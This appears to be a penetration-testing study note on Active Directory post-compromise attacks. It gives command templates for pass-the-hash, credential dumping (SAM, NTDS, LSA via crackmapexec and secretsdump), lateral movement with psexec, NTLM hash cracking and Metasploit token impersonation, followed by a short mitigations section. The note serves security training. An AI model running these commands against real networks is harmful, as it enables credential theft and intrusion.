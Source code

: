 # Active Directory Post Compromise Attacks

---
## Pass the Hash/Password
---

> If able to crack password hash, or can dump SAM hashes, try to pass around network to check for access to other machines on network.

### use crackmapexec
- Pass the password
	- ` crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`

- Pass the hash
	- ` crackmapexec smb <ip>CIDR> -u <user> -H <hash> --local-auth`
- Dump sam, ntds, lsa
	- ` crackmapexec smb <ip/CIDER> -u<user> -p <pass> -d <domain> --sam/--ntds/--lsa`

#### Local vs Domain pass spraying
- pass spray local not domain as domain accounts will get locked out where local will not

---
## Move Laterally
---
- If lateral access is found, can use psexec.py to gain shell on new machine
	` psexec.py <domain>/<user>:<password>@<ip> `

- next use secrets.py to dump sam on new machine
	- `secretsdump.py <domain>/<user>:<password>@<ip>`

secrets.py dumps sam hashes, lsa secrets and DPAPI keys

#### NTLM hash can be passed, NTLMV2 cannot
SAM = NTLM hash
crack with hashcat
	- `hashcat -m 1000 hashfile.txt wordlist.txt -O `

---
## Pass Attack Mitigations
---

- Limit account reuse
	- avoid re-using local admin password
	- disable guest and administrator accounts
	- limit who is a local admin (least privilege)

- use strong passwords
	- longer the better
	- avoid common words
	
- privilege access management
	- check out/in sensitvie accounts
	- auto rotate passwords on check out/in
	- limits pass attacks as passwords is constantly rotated

---
## Token Impersonation
---

- What is Token
	- Temp keys to access system/network without needing creds
	- similar to a cookie for the web

- Two types
	- Delegate, created for logging into machine or using RDP
	- Impersonate, "non interactive" such as attaching network drive

### Attack steps
- start metasploit `msfconsole` then use psexec ` use exploit/windows/smb/psexec`
- set options in psexec module then hit run
- `load incognito` to attempt token impersonation
- `list_tokens -u` list available tokens
- `impersonate_token <token name>` use "\\\" to escape backslash i.e. domain\\user for token name domain\user

